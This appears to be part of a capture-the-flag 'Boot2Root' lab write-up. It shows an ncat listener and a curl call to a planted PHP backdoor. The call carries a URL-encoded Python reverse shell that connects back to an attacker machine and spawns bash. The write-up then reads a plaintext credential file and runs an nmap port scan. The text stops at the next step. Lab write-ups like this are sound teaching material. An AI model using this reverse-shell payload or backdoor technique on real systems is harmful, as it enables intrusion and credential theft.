 # Boot2Root - Writeup 2

Let's start again from the part **Reverse shell** in the first writeup

Remember, we had a reverse shell with the php backdoor on the forum.

Start it with netcat (explanations on the first writeup)

**Client** (our machine):

```sh
$> ncat -nvklp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
```

**Server**:

```sh
curl --insecure 'https://192.168.56.2/forum/templates_c/backdoor.php?cmd=python%20-c%20%27import%20socket%2Csubprocess%2Cos%2Cpty%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.56.47%22%2C1234%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dpty.spawn%28%22%2Fbin%2Fbash%22%29%3B%27'
```

We can search some other informations on the server to find an other way to be root...

```sh
$ cd /
$ ls
bin    dev   initrd.img  mnt   rofs  sbin     sys  var
boot   etc   lib	 opt   root  selinux  tmp  vmlinuz
cdrom  home  media	 proc  run   srv      usr
```
```sh
$ cd home
$ ls
LOOKATME  ft_root  laurie  laurie@borntosec.net  lmezard  thor	zaz
```
```sh
$ cd LOOKATME
$ ls
password
$ cat password
lmezard:G!@M6f4Eatau{sF"
```
Found a login/password again.
`lmezard`
`G!@M6f4Eatau{sF"`

Try it on ssh... Nope.

Remember all the open services

```
$ nmap 192.168.56.2                                                                    !
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-04 16:50 CEST
Nmap scan report for borntosechackme.home (192.168.56.2)
Host is up (0.00025s latency).
Not shown: 994 closed ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps
```
We can try ftp